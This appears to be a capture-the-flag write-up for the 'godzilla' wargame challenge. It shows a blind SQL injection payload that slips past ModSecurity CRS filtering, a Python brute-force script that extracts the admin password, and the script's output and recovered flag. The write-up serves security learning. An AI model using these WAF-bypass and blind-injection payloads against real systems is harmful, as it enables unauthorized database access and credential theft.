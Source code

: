 ```yaml
---
custom_edit_url: null
sidebar_position: 35
tags: [SQLi, Blind SQLi, MOD Security CRS, WAF bypass]
---
```


![1](https://github.com/Kunull/Write-ups/assets/110326359/9e5437bb-3abf-4d3d-959c-7cb6faddf830)

We are provided with the SQL query:

```sql
SELECT id FROM prob_godzilla WHERE id='{$_GET[id]}' AND pw='{$_GET[pw]}'
```

This challenge also utilizes the MOD Security CRS rule-sheet. This time however, we have to perform a Blind SQL injection

&nbsp;

## MOD Security CRS

The MOD Security Core Rule Set, is a set of regex expressions that Web Application Firewalls can use to filter traffic. In this case, out input is being filtered based on this rule set.

In order to bypass this, we can refer [this](https://github.com/SpiderLabs/owasp-modsecurity-crs/issues/1181)Github issue.

![2](https://github.com/Kunull/Write-ups/assets/110326359/824ef7b7-21ef-4c6e-87a0-f639b8ef83d0)

&nbsp;

## Blind SQL Injection
### Extracting the password length

If we provide the following URI parameter:

```
?id=-1'<@=1 OR id='admin' AND length(pw)=[length] OR '
```

The resultant query becomes:

```sql
SELECT id FROM prob_godzilla WHERE id='-1'<@=1 OR id='admin' AND length(pw)=[length] OR '' AND pw=''
```

If the length of `pw` for `id='admin'` is equal to the query will result into `True`. This will cause the `Hello admin` message to be printed. We can brute force the length and use the message as an indicator of correct brute force value.

### Leaking the password

If we provide the following URI parameter:

```
-1'<@=1 OR id='admin' AND substr(pw, [index, 1)='[character]' OR '
```

The resultant query becomes:

```sql
SELECT id FROM prob_godzilla WHERE id='-1'<@=1 OR id='admin' AND substr(pw, [index, 1)='[character]' OR '' AND pw=''
```

If for `id='admin'`, the character of the `pw` at `[index]` is the same as the `[character]` that we provide, the query will result into `True`. This will cause the `Hello admin` message to be printed. We can brute force the password by changing the `[index]` and the `[character]`.

### Script

```python title="godzilla_script.py"
import requests
import urllib.parse
import string

cookies = {'PHPSESSID': 'p2aj4nltfvs8lji1sdmr3c2lam'}
url = "https://modsec.rubiya.kr/chall/godzilla_799f2ae774c76c0bfd8429b8d5692918.php"
password_length = 0

for x in range(0, 10):
  payload = f"-1'<@=1 OR id='admin' AND length(pw)={x} OR '"
  encoded_payload = urllib.parse.quote_plus(payload)
  full_url = f"{url}?pw={encoded_payload}"
    
  response = requests.get(full_url, cookies=cookies)
    
  if "Hello admin" in response.text:
    password_length = x
    break

print()    
print(f"[!] Payload: ?pw={payload}")
print(f"[!] Payload (URL encoded): ?pw={encoded_payload}")
print(f"[!] Password length: {password_length}")

password = ""
searchspace = string.digits + string.ascii_letters

for index in range(1, password_length + 1):
  for char in searchspace:
    payload = f"-1'<@=1 OR id='admin' AND substr(pw, {index}, 1)='{char}' OR '"
    encoded_payload = urllib.parse.quote_plus(payload)
    full_url = f"{url}?pw={encoded_payload}"

    response = requests.get(full_url, cookies=cookies)

    if "Hello admin" in response.text:
      password += char
      print()
      print(f"[+] Payload: ?pw={payload}")
      print(f"[+] Payload (URL encoded): ?pw={encoded_payload}")
      print(f"[+] Character at index {index}: {char}")
      break

print()
print(f"[!] Extracted password: {password}")
print(f"[!] Final payload: ?pw={password}")
```

```
$ python .\godzilla_script.py

[!] Payload: ?pw=-1'<@=1 OR id='admin' AND length(pw)=8 OR '
[!] Payload (URL encoded): ?pw=-1%27%3C%40%3D1+OR+id%3D%27admin%27+AND+length%28pw%29%3D8+OR+%27
[!] Password length: 8

[+] Payload: ?pw=-1'<@=1 OR id='admin' AND substr(pw, 1, 1)='a' OR '
[+] Payload (URL encoded): ?pw=-1%27%3C%40%3D1+OR+id%3D%27admin%27+AND+substr%28pw%2C+1%2C+1%29%3D%27a%27+OR+%27
[+] Character at index 1: a

[+] Payload: ?pw=-1'<@=1 OR id='admin' AND substr(pw, 2, 1)='1' OR '
[+] Payload (URL encoded): ?pw=-1%27%3C%40%3D1+OR+id%3D%27admin%27+AND+substr%28pw%2C+2%2C+1%29%3D%271%27+OR+%27
[+] Character at index 2: 1

[+] Payload: ?pw=-1'<@=1 OR id='admin' AND substr(pw, 3, 1)='8' OR '
[+] Payload (URL encoded): ?pw=-1%27%3C%40%3D1+OR+id%3D%27admin%27+AND+substr%28pw%2C+3%2C+1%29%3D%278%27+OR+%27
[+] Character at index 3: 8

[+] Payload: ?pw=-1'<@=1 OR id='admin' AND substr(pw, 4, 1)='a' OR '
[+] Payload (URL encoded): ?pw=-1%27%3C%40%3D1+OR+id%3D%27admin%27+AND+substr%28pw%2C+4%2C+1%29%3D%27a%27+OR+%27
[+] Character at index 4: a

[+] Payload: ?pw=-1'<@=1 OR id='admin' AND substr(pw, 5, 1)='6' OR '
[+] Payload (URL encoded): ?pw=-1%27%3C%40%3D1+OR+id%3D%27admin%27+AND+substr%28pw%2C+5%2C+1%29%3D%276%27+OR+%27
[+] Character at index 5: 6

[+] Payload: ?pw=-1'<@=1 OR id='admin' AND substr(pw, 6, 1)='c' OR '
[+] Payload (URL encoded): ?pw=-1%27%3C%40%3D1+OR+id%3D%27admin%27+AND+substr%28pw%2C+6%2C+1%29%3D%27c%27+OR+%27
[+] Character at index 6: c

[+] Payload: ?pw=-1'<@=1 OR id='admin' AND substr(pw, 7, 1)='c' OR '
[+] Payload (URL encoded): ?pw=-1%27%3C%40%3D1+OR+id%3D%27admin%27+AND+substr%28pw%2C+7%2C+1%29%3D%27c%27+OR+%27
[+] Character at index 7: c

[+] Payload: ?pw=-1'<@=1 OR id='admin' AND substr(pw, 8, 1)='5' OR '
[+] Payload (URL encoded): ?pw=-1%27%3C%40%3D1+OR+id%3D%27admin%27+AND+substr%28pw%2C+8%2C+1%29%3D%275%27+OR+%27
[+] Character at index 8: 5

[!] Extracted password: a18a6cc5
[!] Final payload: ?pw=a18a6cc5
```

&nbsp;

If we provide the following URI parameter:

```
?pw=a18a6cc5
```

The resultant query becomes:

```sql
SELECT pw FROM prob_godzilla WHERE id='admin' AND pw='a18a6cc5'
```

![3](https://github.com/Kunull/Write-ups/assets/110326359/7c77be5f-1bc1-4055-b3ff-76d411c21382)
